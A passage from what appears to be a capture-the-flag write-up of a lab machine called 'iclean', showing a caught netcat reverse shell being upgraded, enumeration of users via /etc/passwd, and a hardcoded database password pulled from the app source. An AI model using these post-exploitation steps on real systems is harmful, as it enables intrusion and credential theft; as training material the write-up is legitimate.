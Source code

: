 
    www-data@iclean:/opt/app$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@iclean:/opt/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                ‍reset
    www-data@iclean:/opt/app$



## Shell as consuela

### Enumeration

#### Users

There is one user on the box with a home directory in `/home`, and
www-data can't access their directory:



    www-data@iclean:/home$ ls
    consuela
    www-data@iclean:/home$ ls consuela/
    ls: cannot open directory 'consuela/': Permission denied



That same user and root have shells in `passwd`:



    www-data@iclean:/home$ grep 'sh$' /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    consuela:x:1000:1000:consuela:/home/consuela:/bin/bash



#### Web Application Source

The web application is running from `/opt/app`:



    www-data@iclean:/opt/app$ ls
    app.py  static  templates



At the top of `app.py`, there's a database configuration:



    app = Flask(__name__)
                                                                   
    app.config['SESSION_COOKIE_HTTPONLY'] = False

    secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
    app.secret_key = secret_key                                    
    # Database Configuration
    db_config = {                                                  
        'host': '127.0.0.1',
        'user': 'iclean',
        'password': 'pxCsmnGLckUb',
        'database': 'capiclean'
    }   
